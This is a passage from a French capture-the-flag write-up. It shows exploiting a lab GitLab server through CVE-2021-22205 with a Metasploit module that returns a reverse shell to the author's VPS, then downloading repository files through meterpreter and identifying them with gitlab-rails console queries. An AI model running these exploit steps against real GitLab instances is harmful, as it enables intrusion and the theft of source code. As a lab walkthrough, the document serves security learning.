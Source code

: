 Le GitLab en ``192.168.51.5`` sur le port ``80`` n'a pas encore était exploré

A ce stade du ctf , j'ai tenté beaucoup de choses , bruteforce de login , détection de vulnérabilité sur le serveur , etc ..
Finalement , il se trouve qu'il est **vulnérable** à la ``CVE-2021-22205`` qui concerne les exifs .

Par chance, metasploit nous présente encore une fois un exploit rapide à mettre en place !

```bash
proxychains msfconsole -q
search gitlab
use multi/http/gitlab_exif_rce
set RHOSTS 192.168.51.5
set SRVPORT 1337
set LHOST ip_vps..
exploit
```

Shell :)



Maintenant, le but va être de copié et de déchiffrer les fichiers du gitlab .
**2 Solutions** s'offrent à nous :
- ``Monter un Gitlab en local et importer les fichiers``
- ``Copié les fichiers et tenter de les décoder comme un margoulin x)``

Spoiler : Je prend l'option 2 !!

Aprés avoir passé 2h à tenter de monter un docker et d'y importer les fichiers sans succés .

Les fichiers sont situés en : ``/home/git/data/repositories/@hashed``
Grâce au shell meterpreter , on peut tous télécharger:


```
download /home/git/data/repositories/
```

Si on regarde l'arborescence , on peut voir quelque chose :

![AltText](./img/git.png)

Oui des ``git`` !

On peut lancer une console [``gitlab-rails``](https://docs.gitlab.com/ee/administration/operations/rails_console.html) afin d'identifier le nom des répos.

On tape :

```
ProjectRepository.find_by(disk_path: '@hashed/4b/22/4b227777d4dd1fc61c6f884f48641d02b4d121d3fd328cb08b5531fcacdabf8a').project
ProjectRepository.find_by(disk_path: '@hashed/4e/07/4e07408562bedb8b60ce05c1decfe3ad16b72230967de01f640b7e4729b49fce').project
ProjectRepository.find_by(disk_path: '@hashed/6b/86/6b86b273ff34fce19d6b804eff5a3f5747ada4eaa22f1d49c01e52ddb7875b4b').project
ProjectRepository.find_by(disk_path: '@hashed/d4/73/d4735e3a265e16eee03f59718b9b5d03019c07d8b6c51f90da3a666eec13ab35').project
ProjectRepository.find_by(disk_path: '@hashed/ef/2d/ef2d127de37b942baad06145e54b0c619a1f22327b2ebbcfbec78f5564afe39d').project
```
